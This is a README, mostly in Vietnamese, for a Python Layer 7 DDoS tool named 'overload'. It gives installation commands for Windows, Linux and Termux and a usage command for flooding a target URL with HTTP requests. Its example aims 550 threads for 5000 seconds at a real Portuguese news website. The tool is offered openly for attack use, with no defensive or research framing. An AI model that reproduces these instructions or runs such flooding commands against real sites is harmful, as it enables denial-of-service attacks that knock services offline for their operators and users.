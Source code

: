 <h1 align="center">📡 DDOS Tool (Layer 7) </h1> 
<div align="center">
<img src="https://img.shields.io/badge/Made%20with-Python-1f425f.svg"> <img src="https://svgshare.com/i/ZhY.svg"> <img src="https://img.shields.io/github/forks/7zx/overload?style=social&label=Fork&maxAge=2592000"> <img src="https://img.shields.io/github/stars/7zx/overload?style=social&label=Star&maxAge=2592000"> <img src="https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square"> 
</div>

<p align="center">
  <img src="https://raw.githubusercontent.com/7zx/overload/main/img/logo.png" width="200" height="200">
</p>

# :computer: Cửa sổ chính
<p align="center">
  <img src="https://raw.githubusercontent.com/tanjilk/overload/main/img/imgshow.png">
</p>

# 🌙 Cài đặt


<h2>Windows</h2> <img src="https://cdn.iconscout.com/icon/free/png-256/windows-221-1175066.png" width="50" height="50">  

  - Cài đặt Python 3.8 [tại đây](https://www.python.org/downloads/release/python-38)
  - Mở trình cài đặt và nhấp vào: `add python to PATH`
  - Tải xuống quá tải <a href="https://github.com/7zx/overload/archive/refs/heads/main.zip" target="blank">tại đây</a>
  - Mở cmd hoặc PowerShell trong thư mục quá tải
  - Chạy lệnh này: `pip install -r requirements.txt`  

 <h2>Linux</h2><img src="https://raw.githubusercontent.com/8fn/overload/main/img/linux-icon-28166.png" width="50" height="50">

```
sudo apt update
sudo apt install python3 python3-pip git -y
git clone https://github.com/7zx/overload
cd overload/
pip3 install -r requirements.txt or python -m pip install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
pkg update
pkg install python3 python3-pip git -y
git clone https://github.com/7zx/overload
cd overload/
pip3 install -r requirements.txt
```

## ❓ Cách sử dụng
Lệnh cơ bản để chạy quá tải như sau.  

```
python3 overload.py --time XXX --threads XXX --target [URL] --method HTTP
```

Thí dụ: 

```
python3 overload.py --time 5000 --threads 550 --target https://www.publico.pt/ --method HTTP
```
